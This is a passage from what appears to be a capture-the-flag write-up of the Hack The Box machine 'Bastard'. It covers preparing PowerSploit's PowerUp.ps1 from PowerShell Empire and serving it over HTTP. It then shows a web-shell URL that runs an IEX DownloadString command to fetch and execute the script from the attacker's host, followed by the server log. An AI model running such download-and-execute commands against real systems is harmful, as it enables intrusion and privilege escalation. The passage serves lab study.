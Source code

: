 ![AdminDeniedBastard](https://hackingprofessional.github.io/HTB/assets/img/posts/InspecElemAdmBastard.png "Session hijacking with Javascript")  


## How to use Powershell Empire  

PowerShell Empire is a post-exploitation framework for computers and servers running Microsoft Windows, Windows Server operating systems, or both.  
[Article Complete](https://www.powershellempire.com)  

We execute the following command to clone the repository:  

```shell
git clone https://github.com/EmpireProject/Empire.git
```

Now that we have PSE downloaded lets copy the PowerUp.ps1 so we can edit it.  

```shell
cp Empire/data/module_source/privesc/PowerUp.ps1 ./
```

PowerUp.ps1 was made to run inside of empire so we need to add at the botom of the file “Invoke-AllChecks” and save.  

In order to upload the script to our victim, I will mount an HTTP server that hosts the script in powershell; later from the victim machine I will download the file making a GET request to the route where we specify.  
We go to the folder that contains our powershell script and execute the following to mount an HTTP server with Python.  

```shell
python3 -m http.server
```

Then, through PowerShell, we downloaded the file into our victim computer.  

```
http://10.10.10.9/Gerh.php?cmd=echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.17:8000/PowerUp.ps1') | PowerShell -Noprofile -
```  

After making the request through the previous URL, in our attacking machine we will receive in real time the request by the GET method to the PowerUp.ps1 file.  

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4171]
╰─[:)] # python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.9 - - [16/Apr/2019 04:02:03] "GET /PowerUp.ps1 HTTP/1.1" 200 -
```

After a couple of min we can see the results from the powerup.ps1.

![ResultPowerUpBastard](https://hackingprofessional.github.io/HTB/assets/img/posts/ResultPowerUpBastard.png "Result of PowerUp.ps1")  


Looking at the results we can see access denied which tells us that we don’t have admin rights.

## How to use Sherlock  
